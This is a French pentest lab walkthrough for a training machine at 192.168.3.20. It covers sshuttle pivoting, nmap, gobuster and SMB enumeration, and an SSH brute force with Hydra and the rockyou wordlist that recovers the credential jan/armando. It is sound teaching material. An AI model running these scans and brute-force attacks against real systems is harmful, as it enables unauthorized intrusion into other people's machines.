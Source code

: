 ```yaml
---
title: "Machines du Lab"
author: [Olivier LASNE - olivier@lasne.pro]
date: "2020-01-25"
subject: "Pentest"
keywords: [Linux, bash, ligne de commande, shell, administration]
subtitle: ""
lang: "fr"
titlepage: true
...
```


# Installation d'outils

On va utiliser `sshuttle` pour avoir un pseudo VPN en SSH depuis notre VM d'attaque.\
```bash
sudo apt install sshuttle
```

Pour le lancer, on peut utiliser la commande 
```bash
sudo sshuttle -r kali@137.74.90.91:22808 192.168.3.1/24
```

__Bonus :__

Vous pouvez utiliser `sshfs` pour monter un dossier du serveur distant en local.
```bash
sshfs -p 22808 kali@137.74.90.91:dossier_distant dossier_local
```

# Machine 192.168.3.20

## Nmap

On commence par un scan __`nmap`__:

```bash
# Nmap 7.91 scan initiated Mon Jan 25 22:03:06 2021 as: nmap -p- -sV -sC -oN 20/fullscan.nmap 192.168.3.20
Nmap scan report for 192.168.3.20
Host is up (0.000096s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Énumération web

On lance un __`gobuster`__ sur le site web pour découvrir du contenu supplémentaire sur le site.

```bash
$ gobuster dir -u http://192.168.3.20/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php -o gb_med.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.3.20/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php
[+] Timeout:        10s
===============================================================
2021/01/25 22:08:16 Starting gobuster
===============================================================
/development (Status: 301)
/server-status (Status: 403)
===============================================================
2021/01/25 22:08:59 Finished
===============================================================
```

![Dossier developement](./images/dev_folder.png)

## Partage SMB

On utilise __`smbmap`__ pour lister les partages SMB disponnibles: 
```bash
$ smbmap -H 192.168.3.20   
[+] Guest session       IP: 192.168.3.20:445    Name: 192.168.3.20                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        Anonymous                                               READ ONLY
        IPC$                                                    NO ACCESS       IPC Service (Samba Server 4.3.11-Ubuntu)
```


python3 /usr/share/doc/python3-impacket/examples/smbclient.py 192.168.3.20

Bruteforce Hydra
```bash
$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.3.20                                                                                 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-b
inding, these *** ignore laws and ethics anyway).                                                                                                             
                                                                                                                                                              
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-26 00:05:07                                                                            
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4                                         
[DATA] max 16 tasks per 1 server, overall 16 tasks, 71721995 login tries (l:5/p:14344399), ~4482625 tries per task                                            
[DATA] attacking ssh://192.168.3.20:22/                                                                                                                       
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 71721819 to do in 6753:29h, 16 active                                                                         
[STATUS] 140.00 tries/min, 420 tries in 00:03h, 71721579 to do in 8538:17h, 16 active                                                                         
[22][ssh] host: 192.168.3.20   login: jan   password: armando 
```